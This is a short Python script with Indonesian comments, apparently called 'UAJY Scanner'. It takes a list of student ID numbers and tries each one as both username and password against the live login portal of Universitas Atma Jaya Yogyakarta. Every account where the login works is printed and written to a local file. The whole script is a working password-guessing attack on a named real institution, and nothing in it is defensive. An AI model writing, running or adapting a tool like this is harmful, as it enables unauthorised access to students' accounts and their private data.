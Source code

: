 import os
os.system('clear')

try:
	import requests as req
	import requests.packages.urllib3
	from bs4 import BeautifulSoup as Bs
	requests.packages.urllib3.disable_warnings()
except ModuleNotFoundError:
	os.system('python -m pip install --upgrade pip')
	os.system('pip install requests bs4')
	exit('\nSilahkan jalankan ulang Script nya.')

def start(file):
	try:
		# Membuka filepath
		with open(file, 'r') as file:
			hitung  = 0
			failed  = []
			success = []
			barisan = file.readlines()
			for baris in barisan:
				hitung +=1
				
				#untuk Melakukan login dan menampikan output
				ses = req.Session()

				xhost = 'http://login.uajy.ac.id/ac_portal/default/pc.html'
				xdata = { 'username': baris.strip(), 'password': baris.strip() }
				hasil = ses.post(xhost, data=xdata).text
				cek = Bs(hasil, 'html.parser').find('title')
				
				#untuk Menentukan berhasil atau gagal
				if cek.text == 'E-Learning Universitas Atma Jaya Yogyakarta':
					print(f'\033[37m{hitung}) \033[92m{baris.strip()} | {baris.strip()} 》 Login Success')
					success.append(f'{baris.strip()}')
				else:
					print(f'\033[37m{hitung}) \033[31m{baris.strip()} | {baris.strip()} 》 Login Error')
					failed.append(f'{baris.strip()}')
			#Cendol_Dawet
			#untuk Menghitung data akun yg berhasil login
			totalsukses = 0
			for i in success:
				totalsukses +=1
			print(f'\n\033[37m => Sukses: \033[92m{totalsukses}')
			#Root_KandolGanss_04112020
			#untuk Menghitung data akun yg gagal saat login
			totalgagal = 0
			for i in failed:
				totalgagal +=1
			print(f'\033[37m => Gagal: \033[91m{totalgagal}\033[37m\n')
			
			#untuk Menampilkan data akun yg berhasil login
			hitung = 0
			print('Nim Sukses Login:')
			for i in success:
				hitung += 1
				print(f'\033[37m {hitung}) NIM: \033[92m{i} \033[37m| PASSWORD: \033[92m{i}')
				
				#untuk Menyimpan data sukses ke sebuah file
				with open(f'uajy.txt', 'a') as hasil:
					hasil.write(f'{i}\n')
					hasil.close()
			exit("\033[37m\nData tersimpan di \033[96m'uajy.txt'")
		
	except FileNotFoundError:
		exit('\033[91mMaaf, file tidak ditemukan :(')
 

def main():
	print("\033[5;31;40m-----------------------------\n\033[5;33;40m=============================\n\033[5;32;40mU A J Y  S C A N N E R | Kandol\n\033[5;33;40m=============================\n\033[5;31;40m-----------------------------")
	file = input('\033[5;36;40m\nMasukan File Nim 》 ')
	start(file)

if __name__ == '__main__':
	main()
